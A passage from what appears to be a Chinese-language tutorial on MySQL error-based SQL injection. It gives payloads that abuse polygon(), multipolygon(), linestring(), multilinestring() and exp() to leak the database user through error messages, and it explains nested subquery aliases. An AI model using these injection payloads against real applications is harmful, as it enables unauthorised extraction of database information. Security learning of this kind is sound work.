 ```sql
```
### 6.polygon()
POLYGON() 是 MySQL 中用于表示多边形的几何函数，通常用于地理信息系统（GIS）中的空间数据操作。一个 POLYGON 是由一系列有序的坐标点组成的闭合形状，其中第一个点和最后一个点必须相同，以形成封闭的多边形。  
由于 POLYGON() 函数期望接收几何点数据，但传入了字符串，因此会引发错误。这个错误可能会包含一些回显信息，从而帮助攻击者通过错误信息了解系统的内部结构，例如当前的数据库用户名。  
```sql
select * from users where user_id=1 and polygon((select * from(select * from(select user())a)b));
```
### 7.multipolygon()
MULTIPOLYGON() 是 MySQL 中的一个空间函数，用于表示多个多边形的几何集合。每个 POLYGON 是一个闭合的几何形状，而 MULTIPOLYGON 则是由多个 POLYGON 组成的集合。它在地理信息系统（GIS）中常用于表示由多个分散区域组成的复杂地理特征，比如一组岛屿或分隔的城市区域。
```sql
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```
### 8. linestring()
LINESTRING() 是 MySQL 中的空间函数，用于表示一条由多个点组成的线条。它在地理信息系统（GIS）中常用于表示直线或曲线路径，例如道路、河流或边界线等线性地理特征。
```sql
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```
### 9.multilinestring()
MULTILINESTRING() 函数是 MySQL 中的一个空间函数，用于创建多个 LINESTRING 对象的集合，每个 LINESTRING 代表一条由多个点组成的线。
```sql
select * from test where id=1 and multilinestring((select * from(select * from(select
user())a)b));
```
### 10.exp()
exp() 是 MySQL 的指数函数，计算输入参数的指数值（以自然数 e 为底）。如果传入的值不合法或超出范围，可能会抛出错误。这条 SQL 语句的设计目的是通过不合理的函数调用（exp(~(...))）引发 SQL 错误，并通过错误回显机制获取数据库的用户信息。exp() 函数期望数值输入，但传递的是数据库用户信息字符串（USER() 的结果），导致错误。位操作符 ~ 只能用于数值，而在这里被应用到字符串上，也会引发错误。
```sql
select * from users where user_id=1 and exp(~(select * from(select user())a));
```
```bash
mysql> select * from users where user_id=1 and exp(~(select * from (select user()) a));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `a`.`user()` from (select user() AS `user()`) `a`)))'
```
### 11.小结
上面的通过创建几何对象进行报错注入，还有通过exp等数学运算进行报错注入并没有复现出来，应该是数据库版本问题，希望以后遇到可以复现出来。
## 0x07 嵌套查询别名
嵌套查询：(SELECT * FROM (SELECT USER()) a)：  
SELECT USER()：这是 MySQL 的内置函数，返回当前数据库的用户。  
SELECT * FROM (SELECT USER()) a：嵌套查询的作用是返回 USER() 的结果，并将其命名为 a。这种嵌套查询在 SQL 注入中经常用来混淆查询，但最终返回的仍然是 USER() 函数的结果。  
a作为子查询的别名，作为外部查询中的一个表来引用子查询的结果，别名的应用事例如下：
```bash
mysql> select * from (select user()) a;
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select a.user_info from (select user() as user_info) a;
+----------------+
| user_info      |
+----------------+
| root@localhost |
+----------------+
```